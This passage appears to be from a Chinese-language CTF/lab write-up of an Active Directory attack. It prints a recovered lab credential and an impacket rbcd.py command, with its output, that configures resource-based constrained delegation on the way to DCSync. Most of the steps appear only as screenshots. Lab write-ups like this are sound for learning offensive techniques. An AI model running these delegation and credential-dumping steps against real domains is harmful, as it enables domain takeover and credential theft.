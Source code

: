 ![image-20230818152923588](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181529614.png)

FILESERVER 机器账户具有 DCSync 权限

zhangxin  用户属于 Account Operators 组, 因此对域内非域控的所有机器都具有 GenericAll ACL 权限 

那么思路就是通过 zhangxin 对 FILESERVER 配置 RBCD, 然后 DCSync 拿下域控

先看 wangyun 用户, 能够 rdp 到 PC1

![image-20230818153138413](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181531445.png)

![image-20230818153441647](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181534683.png)

xshell 连接信息

![image-20230818153603783](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181536819.png)

SharpDecryptPwd 解密密码

![image-20230818153655147](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181536181.png)

```shell
zhangxin:admin4qwY38cc
```

crackmapexec

![image-20230818153856663](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181538703.png)

![image-20230818153922055](../../../../Library/Application Support/typora-user-images/image-20230818153922055.png)

也能 rdp 到 PC1, 不过没啥有用的信息

利用 zhangxin 用户配置 Fileserver 机器的 RBCD

```shell
$ proxychains rbcd.py xiaorang.lab/zhangxin:'admin4qwY38cc' -dc-ip 172.22.60.8 -action write
 -delegate-to 'Fileserver$' -delegate-from 'TEST$'
Impacket v0.12.0.dev1+20230803.144057.e2092339 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] TEST$ can now impersonate users on Fileserver$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     TEST$        (S-1-5-21-3535393121-624993632-895678587-1116)
```

flag03

![image-20230818154635014](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202308181546066.png)

## flag04 & flag02

dump hash
